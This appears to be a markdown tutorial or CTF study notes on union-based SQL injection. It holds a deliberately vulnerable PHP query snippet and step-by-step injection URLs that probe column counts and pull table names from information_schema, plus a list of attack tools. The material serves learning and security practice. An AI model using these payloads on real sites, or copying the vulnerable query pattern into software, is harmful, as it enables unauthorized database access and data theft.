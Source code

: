 # SQL Injection: Union-Based SQL Injection

## Introduction

Union-Based SQL Injection is a type of SQL injection attack that leverages the SQL UNION operator to combine the results of two or more SELECT queries into a single result set. This method can be used by attackers to extract data from a database by adding their own queries to the original query, which the application executes.

## Table of Contents

- [SQL Injection: Union-Based SQL Injection](#sql-injection-union-based-sql-injection)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [How to identify](#how-to-identify)
  - [Code/tools/websites](#codetoolswebsites)
    - [Code Snippets](#code-snippets)
    - [Tools](#tools)
    - [Websites](#websites)
  - [Sample problem](#sample-problem)
    - [Problem Statement](#problem-statement)
    - [Solution](#solution)
  - [References](#references)
  - [Conclusion](#conclusion)

## How to identify

To identify Union-Based SQL Injection vulnerabilities, look for inputs that are used directly in SQL queries without proper sanitization. Typical indicators include:

1. **Unexpected Behavior:** When inputting SQL syntax (like single quotes, double quotes, or UNION SELECT statements) causes unusual behavior in the application.
2. **Manual Testing:** Try injecting `UNION SELECT NULL` and incrementally increase the number of `NULL` values until the number of columns matches the original query.


```sql
http://somewebsite.com/products.php?id=1 UNION SELECT NULL,NULL
```
3. Sometimes you might be given the soruce code of the website with php in it. Here is an example of a vulnerable PHP code snippet:
   
```php
<?php
$id = $_GET['id'];
$query = "SELECT name, price FROM products WHERE id = '$id'";
$result = mysqli_query($conn, $query);
?>
```

## Code/tools/websites
### Code Snippets
The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query. For example:

```SQL
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

We can use this to add addtional queries to the one sent from the website.





### Tools
- **SQLMap:** An automated tool for SQL injection and database takeover.
- **Burp Suite:** A web vulnerability scanner with tools for manual testing.
- **Havij:** An automated SQL injection tool.

### Websites
> [Zixem](https://www.zixem.altervista.org/SQLi/)
>
> TBA...


## Sample problem

### Problem Statement
You are given access to a web application with a product search feature. The URL for searching products is:
```plaintext
http://example.com/search.php?query=laptop
```
The taks is to identify if the application is vulnerable to Union-Based SQL Injection and extract the names of all tables in the database.

### Solution
1. Test for SQL injection vulnerability:
   ```SQL
   http://example.com/search.php?query=laptop' UNION SELECT NULL,NULL--
   ```
   If you receive an error or abnormal behavior, the site might be vulnerable.

2. Determine the number of columns:
   ```SQL
   http://example.com/search.php?query=laptop' UNION SELECT NULL,NULL,NULL--
   ```
   Adjust the number of `NULL` values until you get a valid response.

3. Extract table names:
   ```SQL
   http://example.com/search.php?query=laptop' UNION SELECT table_name,NULL FROM information_schema.tables--
   ```

> Note: Zixen website has some great problems on this topic, consider doing them to hone your skill :) 

## References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection/union-attacks)
- [SQLMap Documentation](https://sqlmap.org/)

## Conclusion

Union-Based SQL Injection is a powerful technique for extracting data from vulnerable applications. Identifying such vulnerabilities requires understanding the behavior of SQL queries and using appropriate tools and manual testing methods. By practicing with tools like SQLMap and platforms like PortSwigger Web Security Academy, you can enhance your skills in exploiting and securing web applications against SQL injection attacks.